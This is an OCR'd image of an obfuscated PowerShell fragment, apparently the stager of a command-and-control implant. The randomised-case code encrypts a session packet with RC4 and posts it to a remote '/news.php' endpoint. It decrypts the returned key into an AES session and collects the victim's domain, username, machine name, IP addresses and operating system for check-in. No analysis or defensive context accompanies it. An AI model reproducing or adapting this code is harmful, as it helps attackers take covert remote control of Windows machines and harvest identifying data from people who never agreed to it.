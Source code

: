 ```powershell
        $wC.ProXY.CREDEnTIALs = [System.Net.CRedentIALCACHe]::DEfaUltCRedentIAls;
    }
    iF ($ScRIpT:PrOxy) 
    {
        $WC.PROXy = $ScRiPT:ProXY;
    }
    if ($customHeaders -ne "") 
    {
        $HEaDErS = $cusToMHeaDERs -SPlit ',';
        $headERs | ForEACh-ObjeCt 
        {
            $hEADERKEy = $_.spLit(':')[0];
            $HEaderVALUE = $_.sPliT(':')[1];
            if ($headerKey -eq "host")
            {
                Try{$ig=$WC.DownLoAdDaTA($S)}cAtcH{}
            };
            $wC.HeaDErs.AdD($hEAdErKEY, $hEaDERVALue);
        }
    }
    $wc.Headers.Add("User-Agent",$UA);
    $IV=[BiTConvERTER]::GETByTEs($(Get-RAnDoM));
    $Data = $e.GETbyteS($ID) + @(0x01,0X02,0X00,0x00) + [BItCONvERTEr]::GeTByTEs($Eb.LeNGtH);
    $rC4P = CoNVertTO-RC4BYTEStreAm -RCK $($IV+$SKB) -In $DAtA;
    $rC4P = $IV + $Rc4P + $EB;
    $raw=$wc.UploadData($s+"/news.php","POST",$rc4p);
    $DE=$E.GetSTrinG($Rs.DEcrypt($rAW,$FaLSE));
    $NoNcE=$DE[0..15] -Join '';
    $keY=$dE[16..$De.LengTh] -joiN '';
    $NONCe=[StrinG]([lOng]$nONce + 1);
    tRY 
    {
        $AES=NEw-OBJeCT SYSTeM.SeCUriTy.CRYPtOgrapHy.AEsCRyptoSeRvICePRoVIdEr;
    }
    CATch 
    {
        $AES=New-OBJeCt SYStem.SecUrIty.CryPTOgRApHY.RIJndAELMaNAgEd;
    }
    $IV = [ByTE] 0..255 | GeT-RAnDom -CouNT 16;
    $AES.Mode="CBC";
    $AES.Key=$e.GeTBYtES($Key);
    $AES.IV = $IV;
    $i=$nOnCe+'|'+$s+'|'+[EnVIrONmEnT]::UsErDomainNaME+'|'+[ENViRONMEnt]::UsERNaME+'|'+[ENVIRONMEnT]::MacHineName;
    TRy
    {
        $P=(gWmi WiN32_NETwOrKADaPtERCOnfIguraTION|WHERE{$_.IPADdRess}|SEleCT -ExpaNd IPAdDResS);
    }
    CaTch 
    {
        $p = "[FAILED]"
    }
    $Ip = @{$truE=$P[0];
    $FALse=$P}[$p.LengtH -lT 6];
    if(!$ip -Or $Ip.triM() -Eq '')
    {
        $IP='0.0.0.0'
    };
    $i+="|$ip";
    tRy
    {
        $I+='|'+(Get-WMIOBJect Win32_OperAtiNGSYSTEM).NaMe.sPLIT('|')[0];
    }
```